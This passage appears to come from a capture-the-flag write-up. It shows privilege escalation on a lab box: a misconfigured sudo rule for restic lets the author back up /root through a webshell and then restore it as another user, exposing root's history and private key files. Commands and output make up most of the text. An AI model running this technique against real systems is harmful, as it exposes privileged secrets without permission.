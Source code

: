 With our `www-data` webshell we put the repository password in a file and
backup the whole `/root/` directory.

    :::text
    $ echo lol > /tmp/l
    $ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ -p /tmp/l /root/
    scan [/root]
    [0:00] 10 directories, 14 files, 28.066 KiB
    scanned 10 directories, 14 files in 0:00
    [0:00] 100.00%  28.066 KiB / 28.066 KiB  24 / 24 items  0 errors  ETA 0:00

    duration: 0:00
    snapshot 485d9809 saved

Back to our bolt SSH shell we can check the snapshots in our
repository (yes I did some test with the bolt user. That's how I discover that I
was prompted for password).

    :::text
    bolt@bolt:/tmp/ioio2$ restic -r ./srv/ snapshots
    enter password for repository:
    password is correct
    ID        Date                 Host        Tags        Directory
    ----------------------------------------------------------------------
    91587cbd  2019-12-05 15:20:31  bolt                    /home/bolt
    bf190199  2019-12-05 15:21:59  bolt                    /home/bolt
    c7702698  2019-12-05 15:23:55  bolt                    /home/bolt
    485d9809  2019-12-05 15:25:06  bolt                    /root
    ----------------------------------------------------------------------
    4 snapshots

We restore the last snapshot in a new directory. It generate some errors that we
don't really care about.

    :::text
    bolt@bolt:/tmp/ioio2$ mkdir rest
    bolt@bolt:/tmp/ioio2$ restic -r ./srv/ restore 485d9809 --target  ./rest
    enter password for repository:
    password is correct
    restoring <Snapshot 485d9809 of [/root] at 2019-12-05 15:25:06.665521427 +0000 UTC by root@bolt> to ./rest
    ignoring error for /root/.bash_history: Lchown: lchown /tmp/ioio2/rest/root/.bash_history: operation not permitted
    ignoring error for /root/.bashrc: Lchown: lchown /tmp/ioio2/rest/root/.bashrc: operation not permitted
    ignoring error for /root/.cache/motd.legal-displayed: Lchown: lchown /tmp/ioio2/rest/root/.cache/motd.legal-displayed: operation not permitted
    ignoring error for /root/.cache: Lchown: lchown /tmp/ioio2/rest/root/.cache: operation not permitted
    ignoring error for /root/.config/composer/keys.dev.pub: Lchown: lchown /tmp/ioio2/rest/root/.config/composer/keys.dev.pub: operation not permitted
    ignoring error for /root/.config/composer/keys.tags.pub: Lchown: lchown /tmp/ioio2/rest/root/.config/composer/keys.tags.pub: operation not permitted
    ignoring error for /root/.config/composer: Lchown: lchown /tmp/ioio2/rest/root/.config/composer: operation not permitted
    ignoring error for /root/.config: Lchown: lchown /tmp/ioio2/rest/root/.config: operation not permitted
    ignoring error for /root/.gnupg/private-keys-v1.d: Lchown: lchown /tmp/ioio2/rest/root/.gnupg/private-keys-v1.d: operation not permitted
    ignoring error for /root/.gnupg: Lchown: lchown /tmp/ioio2/rest/root/.gnupg: operation not permitted
    ignoring error for /root/.local/share/nano: Lchown: lchown /tmp/ioio2/rest/root/.local/share/nano: operation not permitted
    ignoring error for /root/.local/share: Lchown: lchown /tmp/ioio2/rest/root/.local/share: operation not permitted